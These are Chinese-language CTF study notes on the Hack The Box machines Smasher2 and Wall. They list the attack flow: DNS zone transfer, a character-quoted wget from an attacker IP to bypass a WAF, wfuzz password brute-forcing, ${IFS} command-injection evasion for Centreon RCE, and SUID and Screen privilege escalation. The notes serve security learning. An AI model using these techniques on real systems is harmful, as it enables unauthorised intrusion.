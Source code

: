 ### 五、Smasher2

环境概述：Linux、Insane、50'、01 Jun 2019

渗透流程：Nmap -> DNS -> Web Enumeration -> auth.py: Analysis -> session.so: Analysis –> Authentication Bypass -> WAF Bypass –> RCE –> Shell as dzonerzy –> Root Flag -> dhid.ko: Enumeration -> dhid.ko: Analysis -> dhid.ko: Exploitation –> Root Shell –> Root Flag

知识点：

- DNS：通过Nmap发现服务器开启了53/tcp DNS服务，使用dig利用域传送漏洞，`dig axfr smasher2.htb @10.10.10.135`。
- 文件对比：使用diff，`diff getinternalusr getinternalpwd`。
- Bypass：使用单引号，`'w'g'e't 'h't't'p':'/'/'1'0'.'1'0'.'x'x'.'x'x'/'t'e's't'`。
- Linux登陆：使用SSH公私钥，将公钥上传至~下的.ssh目录，命名为authorization_keys并赋予600权限，`~/.ssh/authorized_keys`，`chmod 600 ~/.ssh/authorized_keys`。 
- 信息搜集：查看各类服务的日志记录，`/var/log/`。
- 后半部分涉及到逆向和PWN知识。

思考：

- 域传送：区域传输（Zone transfer）为了给同域下的DNS Server做负载均衡，管理员若配置不当可导致跨域传输，泄露域内DNS记录，如未公开的子域名等。
- 域传送漏洞：前提是获取目标Server使用的NS（Name Server），使用dig，`dig +nostats +nocomments +nocmd NS smasher2.htb`；Windows下可使用nslookup交互式界面，指定NS，`server 10.10.10.135`，列出DNS记录，`ls -d smasher2.htb`。
- DNS：标准服务须同时开启53/tcp、53/udp。递归解析时使用53/udp；区域传输因需要可靠传输必须使用53/tcp。

### 六、Wall

环境概述：Linux、Medium、30'、14 Sep 2019

渗透流程：Nmap -> Web Enumeration -> RCE -> WAF Bypass –> Shell as www-data -> Screen 4.5.0 –> Root Shell –> User & Root Flags

知识点：

- 目录枚举：80/tcp端口是Apache Web服务，index为默认页面，这时使用gobuster枚举目录，有意外收获。
- Web认证：使用了Apache默认的认证方式，并进行了爆破。
- Bypass Auth：GET请求monitoring目录触发Apache认证，将请求更改为POST绕过认证。
- 密码爆破：使用wfuzz，`wfuzz -c -X POST -d "username=admin&password=FUZZ" -w ./darkweb2017-top10000.txt http://wall.htb/centreon/api/index.php?action=authenticate`。
- Getshell：Centreon使用的版本19.04，使用searchsploit寻找EXP，`searchsploit centreon`，发现存在RCE。
- Bypass Exec：根据公开的EXP，反向追溯漏洞触发点，手工测试发现将空格替换成`${IFS}`，绕过WAF。
- Linux提权：发现screen工具拥有suid权限；编译exp，`gcc -fPIC -shared -ldl -o libhax.so libhax.c`。
- umask：`umask 000`，对所有位都不mask（掩码），新建文件和文件夹均为默认权限，并无存在意义。

思考：

- Web认证：Apache Basic Auth会在请求头中添加Authorization字段，内容为`用户名:密码`的base64编码，`Authorization: Basic YWRtaW46YWRtaW4=`；使用Burpsuite爆破，在intruder模块选中base64字段，payload type选择Custom iterator，分别设置`用户名字典、:、密码字典`。
- Bypass Auth：参考绕过Web授权和认证之[篡改HTTP请求](https://sobug.com/article/detail/25)。
- CSRF token：作者到这还没有登陆系统，token对于爆破无影响，直接抓包爆破即可。
- Bypass Exec：Linux环境下，除了`${IFS}`可代替空格外，还有`<>`重定向符、` {,}`格式包裹，参考我的博客总结[Some-tricks-of-Linux-in-CTF](https://ai-sewell.me/2017/Some-tricks-of-Linux-in-CTF)。
- Linux提权：文中提到利用拥有suid权限的可执行程序来提权，使用find，`find / -user root -perm -4000 -print 2>/dev/null`，可参考[Linux利用SUID权限提权例子]([https://ai-sewell.me/2018/Linux-%E5%88%A9%E7%94%A8-SUID%E6%9D%83%E9%99%90-%E6%8F%90%E6%9D%83%E4%BE%8B%E5%AD%90/](https://ai-sewell.me/2018/Linux-利用-SUID权限-提权例子/))；有哪些程序可用来提权，可以利用[gtfobins](https://gtfobins.github.io/)工具快速判断。
